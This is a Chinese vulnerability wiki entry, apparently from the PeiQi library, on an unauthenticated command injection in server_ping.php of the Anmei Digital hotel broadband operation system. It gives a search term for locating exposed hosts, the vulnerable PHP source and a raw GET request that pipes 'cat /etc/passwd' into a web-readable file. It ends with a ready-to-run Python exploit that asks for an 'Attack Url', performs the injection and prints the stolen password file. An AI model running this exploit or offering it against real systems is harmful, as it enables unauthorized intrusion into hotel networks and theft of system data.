


安美数字 酒店宽带运营系统 server_ping.php 远程命令执行漏洞¶
漏洞描述¶
安美数字 酒店宽带运营系统 server_ping.php 存在远程命令执行漏洞，漏洞文件中ip参数未过滤造成命令执行
漏洞影响¶
安美数字 酒店宽带运营系统
网络测绘¶
"酒店宽带运营"
漏洞复现¶
登录页面如下
存在漏洞的文件为 server_ping.php
<?
if (!isset($ip) || $ip == "" || !isset($id) || $id == "") exit;
$cmd = "ping -c 2 -s 65 $ip";
$fp = popen($cmd, "r");
$getString = "";
if ($fp) {
while (($line = fgets($fp, 512))) {
$getString .= trim($line);
}
pclose($fp);
}
if (strstr($getString, "2 received, 0%")) {
echo "<html><body><script language=\"javascript\">\n";
echo "parent.doTestResult('$id', 'ok');\n";
echo "</script></body></html>\n";
} else {
echo "<html><body><script language=\"javascript\">\n";
echo "parent.doTestResult('$id', 'no');\n";
echo "</script></body></html>\n";
}
?>
漏洞位置为
$cmd = "ping -c 2 -s 65 $ip";
$fp = popen($cmd, "r");
GET传入 $ip参数 后直接命令执行，并且文件无权限要求
请求包为
GET /manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd>../../test.txt&id=1 HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36

漏洞POC¶
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from : http://wiki.peiqi.tech
import base64
import requests
import random
import re
import json
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: 安美数字 酒店宽带运营系统 server_ping.php 远程命令执行漏洞 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+------------------------------------------')
def POC_1(target_url):
vuln_url = target_url + "/manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd>../../test.txt&id=1"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded",
}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
print("\033[36m[o] 正在执行 cat /etc/passwd>../../test.txt \033[0m".format(target_url))
if "parent" in response.text and response.status_code == 200:
vuln_url = target_url + "/test.txt"
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded",
}
response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=10)
if "root:" in response.text:
print("\033[36m[o] 成功执行 cat /etc/passwd, 响应为:\n{} \033[0m".format(response.text))
else:
print("\033[31m[x] 请求失败:{} \033[0m")
else:
print("\033[31m[x] 请求失败 \033[0m")
except Exception as e:
print("\033[31m[x] 请求失败:{} \033[0m".format(e))
sys.exit(0)
#
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
POC_1(target_url)
